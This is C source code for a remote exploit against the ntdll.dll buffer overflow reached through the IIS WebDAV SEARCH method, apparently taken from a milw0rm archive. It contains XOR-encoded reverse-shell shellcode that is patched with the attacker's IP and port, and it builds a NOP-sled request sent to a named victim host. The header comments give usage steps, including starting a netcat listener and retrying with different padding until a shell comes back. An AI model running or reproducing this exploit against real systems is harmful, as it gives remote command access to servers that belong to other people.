 EXP
---

    /*******************************************************************/
    /* [Crpt] ntdll.dll exploit trough WebDAV by kralor [Crpt] */
    /* --------------------------------------------------------------- */
    /* this is the exploit for ntdll.dll through WebDAV. */
    /* run a netcat ex: nc -L -vv -p 666 */
    /* wb server.com your_ip 666 0 */
    /* the shellcode is a reverse remote shell */
    /* you need to pad a bit.. the best way I think is launching */
    /* the exploit with pad = 0 and after that, the server will be */
    /* down for a couple of seconds, now retry with pad at 1 */
    /* and so on..pad 2.. pad 3.. if you haven't the shell after */
    /* something like pad at 10 I think you better to restart from */
    /* pad at 0. On my local IIS the pad was at 1 (0x00110011) but */
    /* on all the others servers it was at 2,3,4, etc..sometimes */
    /* you can have the force with you, and get the shell in 1 try */
    /* sometimes you need to pad more than 10 times ;) */
    /* the shellcode was coded by myself, it is SEH + ScanMem to */
    /* find the famous offsets (GetProcAddress).. */
    /* */
    /*******************************************************************/


    #include <winsock.h>
    #include <windows.h>
    #include <stdio.h>

    #pragma comment (lib,"ws2_32")

    char shellc0de[] =
    "\x55\x8b\xec\x33\xc9\x53\x56\x57\x8d\x7d\xa2\xb1\x25\xb8\xcc\xcc"
    "\xcc\xcc\xf3\xab\xeb\x09\xeb\x0c\x58\x5b\x59\x5a\x5c\x5d\xc3\xe8"
    "\xf2\xff\xff\xff\x5b\x80\xc3\x10\x33\xc9\x66\xb9\xb5\x01\x80\x33"
    "\x95\x43\xe2\xfa\x66\x83\xeb\x67\xfc\x8b\xcb\x8b\xf3\x66\x83\xc6"
    "\x46\xad\x56\x40\x74\x16\x55\xe8\x13\x00\x00\x00\x8b\x64\x24\x08"
    "\x64\x8f\x05\x00\x00\x00\x00\x58\x5d\x5e\xeb\xe5\x58\xeb\xb9\x64"
    "\xff\x35\x00\x00\x00\x00\x64\x89\x25\x00\x00\x00\x00\x48\x66\x81"
    "\x38\x4d\x5a\x75\xdb\x64\x8f\x05\x00\x00\x00\x00\x5d\x5e\x8b\xe8"
    "\x03\x40\x3c\x8b\x78\x78\x03\xfd\x8b\x77\x20\x03\xf5\x33\xd2\x8b"
    "\x06\x03\xc5\x81\x38\x47\x65\x74\x50\x75\x25\x81\x78\x04\x72\x6f"
    "\x63\x41\x75\x1c\x81\x78\x08\x64\x64\x72\x65\x75\x13\x8b\x47\x24"
    "\x03\xc5\x0f\xb7\x1c\x50\x8b\x47\x1c\x03\xc5\x8b\x1c\x98\x03\xdd"
    "\x83\xc6\x04\x42\x3b\x57\x18\x75\xc6\x8b\xf1\x56\x55\xff\xd3\x83"
    "\xc6\x0f\x89\x44\x24\x20\x56\x55\xff\xd3\x8b\xec\x81\xec\x94\x00"
    "\x00\x00\x83\xc6\x0d\x56\xff\xd0\x89\x85\x7c\xff\xff\xff\x89\x9d"
    "\x78\xff\xff\xff\x83\xc6\x0b\x56\x50\xff\xd3\x33\xc9\x51\x51\x51"
    "\x51\x41\x51\x41\x51\xff\xd0\x89\x85\x94\x00\x00\x00\x8b\x85\x7c"
    "\xff\xff\xff\x83\xc6\x0b\x56\x50\xff\xd3\x83\xc6\x08\x6a\x10\x56"
    "\x8b\x8d\x94\x00\x00\x00\x51\xff\xd0\x33\xdb\xc7\x45\x8c\x44\x00"
    "\x00\x00\x89\x5d\x90\x89\x5d\x94\x89\x5d\x98\x89\x5d\x9c\x89\x5d"
    "\xa0\x89\x5d\xa4\x89\x5d\xa8\xc7\x45\xb8\x01\x01\x00\x00\x89\x5d"
    "\xbc\x89\x5d\xc0\x8b\x9d\x94\x00\x00\x00\x89\x5d\xc4\x89\x5d\xc8"
    "\x89\x5d\xcc\x8d\x45\xd0\x50\x8d\x4d\x8c\x51\x6a\x00\x6a\x00\x6a"
    "\x00\x6a\x01\x6a\x00\x6a\x00\x83\xc6\x09\x56\x6a\x00\x8b\x45\x20"
    "\xff\xd0"
    "CreateProcessA\x00LoadLibraryA\x00ws2_32.dll\x00WSASocketA\x00"
    "connect\x00\x02\x00\x02\x9A\xC0\xA8\x01\x01\x00"
    "cmd" // don't change anything..
    "\x00\x00\xe7\x77" // offsets of kernel32.dll for some win ver..
    "\x00\x00\xe8\x77"
    "\x00\x00\xf0\x77"
    "\x00\x00\xe4\x77"
    "\x00\x88\x3e\x04" // win2k3
    "\x00\x00\xf7\xbf" // win9x =P
    "\xff\xff\xff\xff";

    int test_host(char *host)
    {
    char search[100]="";
    int sock;
    struct hostent *heh;
    struct sockaddr_in hmm;
    char buf[100] ="";

    if(strlen(host)>60) {
    printf("error: victim host too long.\r\n");
    return 1;
    }

    if ((heh = gethostbyname(host))==0){
    printf("error: can't resolve '%s'",host);
    return 1;
    }

    sprintf(search,"SEARCH / HTTP/1.1\r\nHost: %s\r\n\r\n",host);
    hmm.sin_port = htons(80);
    hmm.sin_family = AF_INET;
    hmm.sin_addr = *((struct in_addr *)heh->h_addr);

    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1){
    printf("error: can't create socket");
    return 1;
    }

    printf("Checking WebDav on '%s' ... ",host);

    if ((connect(sock, (struct sockaddr *) &hmm, sizeof(hmm))) == -1){
    printf("CONNECTING_ERROR\r\n");
    return 1;
    }
    send(sock,search,strlen(search),0);
    recv(sock,buf,sizeof(buf),0);
    if(buf[9]=='4'&&buf[10]=='1'&&buf[11]=='1')
    return 0;
    printf("NOT FOUND\r\n");
    return 1;
    }

    void help(char *program)
    {
    printf("syntax: %s <victim_host> <your_host> <your_port> [padding]\r\n",program);
    return;
    }

    void banner(void)
    {
    printf("\r\n\t [Crpt] ntdll.dll exploit trough WebDAV by kralor
    [Crpt]\r\n");
    printf("\t\twww.coromputer.net && undernet #coromputer\r\n\r\n");
    return;
    }

    void main(int argc, char *argv[])
    {
    WSADATA wsaData;
    unsigned short port=0;
    char *port_to_shell="", *ip1="", data[50]="";
    unsigned int i,j;
    unsigned int ip = 0 ;
    int s, PAD=0x10;
    struct hostent *he;
    struct sockaddr_in crpt;
    char buffer[65536] ="";
    char request[80000]; // huuuh, what a mess! :)
    char content[] =
    "<?xml version=\"1.0\"?>\r\n"
    "<g:searchrequest xmlns:g=\"DAV:\">\r\n"
    "<g:sql>\r\n"
    "Select \"DAV:displayname\" from scope()\r\n"
    "</g:sql>\r\n"
    "</g:searchrequest>\r\n";

    banner();
    if((argc<4)||(argc>5)) {
    help(argv[0]);
    return;
    }

    if(WSAStartup(0x0101,&wsaData)!=0) {
    printf("error starting winsock..");
    return;
    }

    if(test_host(argv[1]))
    return;

    if(argc==5)
    PAD+=atoi(argv[4]);

    printf("FOUND\r\nexploiting ntdll.dll through WebDav [ret: 0x00%02x00%02x]\r\n",PAD,PAD);

    ip = inet_addr(argv[2]); ip1 = (char*)&ip;

    shellc0de[448]=ip1[0]; shellc0de[449]=ip1[1]; shellc0de[450]=ip1[2];
    shellc0de[451]=ip1[3];

    port = htons(atoi(argv[3]));
    port_to_shell = (char *) &port;
    shellc0de[446]=port_to_shell[0];
    shellc0de[447]=port_to_shell[1];

    // we xor the shellcode [xored by 0x95 to avoid bad chars]
    __asm {
    lea eax, shellc0de
    add eax, 0x34
    xor ecx, ecx
    mov cx, 0x1b0
    wah:
    xor byte ptr[eax], 0x95
    inc eax
    loop wah
    }

    if ((he = gethostbyname(argv[1]))==0){
    printf("error: can't resolve '%s'",argv[1]);
    return;
    }

    crpt.sin_port = htons(80);
    crpt.sin_family = AF_INET;
    crpt.sin_addr = *((struct in_addr *)he->h_addr);

    if ((s = socket(AF_INET, SOCK_STREAM, 0)) == -1){
    printf("error: can't create socket");
    return;
    }

    printf("Connecting... ");

    if ((connect(s, (struct sockaddr *) &crpt, sizeof(crpt))) == -1){
    printf("ERROR\r\n");
    return;
    }
    // No Operation.
    for(i=0;i<sizeof(buffer);buffer[i]=(char)0x90,i++);
    // fill the buffer with the shellcode
    for(i=64000,j=0;i<sizeof(buffer)&&j<sizeof(shellc0de)-1;buffer[i]=shellc0de[j],i++,j++);
    // well..it is not necessary..
    for(i=0;i<2500;buffer[i]=PAD,i++);

    /* we can simply put our ret in this 2 offsets.. */
    //buffer[2086]=PAD;
    //buffer[2085]=PAD;

    buffer[sizeof(buffer)]=0x00;
    memset(request,0,sizeof(request));
    memset(data,0,sizeof(data));
    sprintf(request,"SEARCH /%s HTTP/1.1\r\nHost: %s\r\nContent-type: text/xml\r\nContent-Length: ",buffer,argv[1]);
    sprintf(request,"%s%d\r\n\r\n",request,strlen(content));
    printf("CONNECTED\r\nSending evil request... ");
    send(s,request,strlen(request),0);
    send(s,content,strlen(content),0);
    printf("SENT\r\n");
    recv(s,data,sizeof(data),0);
    if(data[0]!=0x00) {
    printf("Server seems to be patched.\r\n");
    printf("data: %s\r\n",data);
    } else
    printf("Now if you are lucky you will get a shell.\r\n");
    closesocket(s);
    return;
    }

    // milw0rm.com [2003-03-23]
